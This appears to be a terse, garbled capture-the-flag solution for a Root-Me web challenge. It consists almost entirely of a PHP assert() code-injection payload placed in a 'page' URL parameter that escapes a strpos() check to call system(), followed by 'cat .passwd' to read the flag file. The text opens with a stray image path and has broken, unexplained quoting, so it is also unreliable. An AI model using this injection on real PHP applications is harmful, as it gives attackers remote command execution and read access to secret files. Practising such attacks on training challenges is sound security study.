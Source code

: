 (strpos('includes/', ww', 'r') == true or system('**shell**') and strpos('1.php', '..') === false)  = true</br>

==> assert("strpos('includes/', ww', 'r') == true or system('**shell**') and strpos('1.php', '..') === false") run


http://challenge01.root-me.org/web-serveur/ch47/?page=ww', 'r') == true or system('**shell**') and strpos('1</br>
shell: cat .passwd